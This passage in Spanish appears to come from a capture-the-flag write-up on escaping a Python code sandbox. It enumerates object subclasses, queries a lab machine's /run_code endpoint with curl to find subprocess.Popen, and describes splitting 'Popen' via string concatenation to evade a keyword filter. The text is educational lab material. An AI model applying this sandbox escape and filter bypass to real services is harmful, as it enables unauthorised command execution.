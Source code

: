 Comenzaremos enumerando todas las subclases cargadas en la memoria, para esto utilizaremos la siguiente línea de código

~~~ bash
().__class__.__bases__[0].__subclasses__()

# Alternativa
object.__subclasses__()
~~~

Esto mostrará todas las subclases disponibles, nuestro objetivo es buscar alguna que nos ayude a ejecutar comandos, tales como `os.system` o `subprocess.Popen`

![image-center](/assets/images/posts/code-sandbox-escape.png)
{: .align-center}

Intentaremos ver las subclases cargadas dentro del contexto actual con el siguiente comando, en este caso, encontraremos `sbuprocess`

~~~ bash
curl -sX POST http://10.10.11.62:5000/run_code -d "code=print(object.__subclasses__())" | tr ',' '\n' | grep subprocess

 <class 'subprocess.CompletedProcess'>
 <class 'subprocess.Popen'>
 <class 'asyncio.subprocess.Process'>
~~~

> `subprocess.Popen()` es una función dentro de `python` que nos permite ejecutar cualquier comando en el sistema a través de la creación de un proceso secundario.
{: .notice--info}

El siguiente código busca el valor índice de la función `Popen`

> Nota cómo aprovechamos la concatenación para romper la palabra `Popen` en `'Po' + 'Pen'` y así evitar el filtro de palabras restringidas
{: .notice--warning}
